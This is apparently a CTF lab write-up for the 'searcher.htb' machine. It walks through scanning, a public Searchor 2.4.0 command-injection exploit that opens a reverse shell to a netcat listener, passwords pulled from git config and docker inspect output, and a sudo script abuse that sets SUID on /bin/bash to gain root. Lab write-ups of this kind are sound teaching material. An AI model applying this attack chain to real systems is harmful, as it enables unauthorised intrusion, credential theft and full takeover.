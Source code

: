 #Linux #Pwned #CMDInjection #git #sudo 
```IP
10.10.11.208
```
# Enumeration
## Nmap
As always I start with a nmap port scan:
```bash
sudo nmap -sCV 10.10.11.208 -vvv -p- -oN enum/full
```
Output:
```
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:                                  
|   256 4f:e3:a6:67:a2:27:f9:11:8d:c3:0e:d7:73:a0:2c:28 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBIzAFurw3qLK4OEzrjFarOhWslRrQ3K/MDVL2opfXQLI+zYXSwqofxsf8v2MEZuIGj6540YrzldnPf8CTFSW2rk=
|   256 81:6e:78:76:6b:8a:ea:7d:1b:ab:d4:36:b7:f8:ec:c4 (ED25519)                     
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIPTtbUicaITwpKjAQWp8Dkq1glFodwroxhLwJo6hRBUK
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.52
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: Did not follow redirect to http://searcher.htb/
Service Info: Host: searcher.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## HTTP
The first thing we notice is that we are redirected to searcher.htb, so we will add that to hour /etc/hosts file.

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020250210092118.png?raw=true)

When navigating to the webpage, we see a searchor 2.4.0 service:

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020250210092303.png?raw=true)

Enumerating the webpage directories does not prove to be very useful:
```
ffuf -u http://searcher.htb/FUZZ -w /usr/share/SecLists-master/Discovery/Web-Content/raft-medium-directories-lowercase.txt
```
```
search                  [Status: 405, Size: 153, Words: 16, Lines: 6, Duration: 75ms]
server-status           [Status: 403, Size: 277, Words: 20, Lines: 10, Duration: 37ms]
```

# Exploitation

Knowing that we are facing a searchor 2.4.0 service, we can search for open vulnerabilities. We do not need to dive very deep to discover a CMD injection vulnerability as shown below:

https://github.com/nikn0laty/Exploit-for-Searchor-2.4.0-Arbitrary-CMD-Injection

We can execute it with the following command:
```
./exploit.sh searcher.htb 10.10.14.3
```

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020250210093351.png?raw=true)

And we set up a listener on default port 9001:
```
nc -lvnp 9001
```

Which will receive a reverse shell as shown below:

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020250210093402.png?raw=true)

# PrivEsc

## Manual

When doing some manual enumeration we discover that there is an aditional domain name which we will add to our /etc/hosts file and try to access, but it needs credentials:

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020250210102440.png?raw=true)

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020250210102553.png?raw=true)

It seems like there are only 2 users with an interactive shell:

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020250210093600.png?raw=true)

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020250210093815.png?raw=true)

There are some interesting information in the git files, for example, we now know that the user is named cody:

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020250210094654.png?raw=true)

We can also find some hardcoded credentials in the config git file:

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020250210094814.png?raw=true)

```
cody:jh1usoih2bkjaspwe92
```

These credentials work for svc user, and now we can see what we can do as root:

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020250210095041.png?raw=true)

```
sudo /usr/bin/python3 /opt/scripts/system-checkup.py *
```

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020250210095408.png?raw=true)

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020250210095339.png?raw=true)

Toying with this script and searching online information (https://docs.docker.com/reference/cli/docker/inspect/) reveals that we can inspect docker containers information in various formats. The following command will prompt gitea docker image information in json format:

```
sudo python3 /opt/scripts/system-checkup.py docker-inspect '{{json .}}' gitea | jq 
```

```
sudo python3 /opt/scripts/system-checkup.py docker-inspect
```

Here we will find yet another password:

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020250210100019.png?raw=true)

```
gitea:yuiu1hoiu4i5ho1uh
```

```
sudo python3 /opt/scripts/system-checkup.py docker-inspect '{{json .}}' mysql_db | jq .
```
And in the mysql_db docker image we find a new IP address from the sql server:

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020250210100459.png?raw=true)

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020250210102019.png?raw=true)

We can try to access this database, but it does not seem to contain any relevant privilege escalation vector:
```
mysql -h 172.19.0.3 -u gitea -pyuiu1hoiu4i5ho1uh gitea
```

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020250210101050.png?raw=true)

Doing the same with the other set of credentials does not prove to be useful either:
```
mysql -h 172.19.0.3 -u root -pjI86kGUuj87guWr3RyF gitea
```

We will need to back up and take another approach. We then realize that it is possible to access in gitea.searcher.htb as administrator with password `yuiu1hoiu4i5ho1uh`:

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020250210102656.png?raw=true)

This page contains various scripts, which includes some of the functions used by the script we can execute with sudo:

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020250210102928.png?raw=true)

It seems that this option try to search for a full-checkup.sh script in the current directory and executes its contents. We will create it and add a line to add SUID permissions to bash:
```
echo '#!/bin/bash\nchmod u+s /bin/bash' > full-checkup.sh
```
```
chmod +x full-checkup.sh
```
```
sudo /usr/bin/python3 /opt/scripts/system-checkup.py full-checkup
```

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020250210103919.png?raw=true)

When executing the sudo script, it executes our full-checkup.sh, which will grant SUID permission to bash and we can execute it as root now:

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020250210104022.png?raw=true)

Pwned!
